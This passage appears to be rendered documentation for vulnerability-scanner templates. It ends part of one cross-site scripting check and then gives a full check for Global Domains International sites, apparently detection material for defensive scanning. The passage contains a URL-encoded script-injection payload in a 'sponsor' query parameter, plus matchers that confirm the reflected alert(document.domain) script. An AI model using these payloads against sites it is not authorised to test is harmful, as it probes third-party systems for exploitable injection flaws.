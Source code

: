 ### Matchers

**Type - word**

- part - body
- words
  1. \<em style="color: black;">\<script>alert(document.domain)\</script>

**Type - word**

- part - header
- words
  1. text/html

**Type - status**

- status
  1. 200

---

# Global Domains International - Cross-Site Scripting

## Description

- Sites hosted by Global Domains International, Inc. have cross-site scripting and directory traversal vulnerabilities.

- severity - high
- tags - globaldomains,xss,packetstorm

## Requests

- Method - GET

### URL

- {{BaseURL}}/index.dhtml?sponsor=%3C%2Fscript%3E%3Cscript%3Ealert%28document.domain%29%3C%2Fscript%3E

### Matchers

**Type - word**

- part - body
- words
  1. \</script>\<script>alert(document.domain)\</script>

**Type - word**

- part - header
- words
  1. text/html
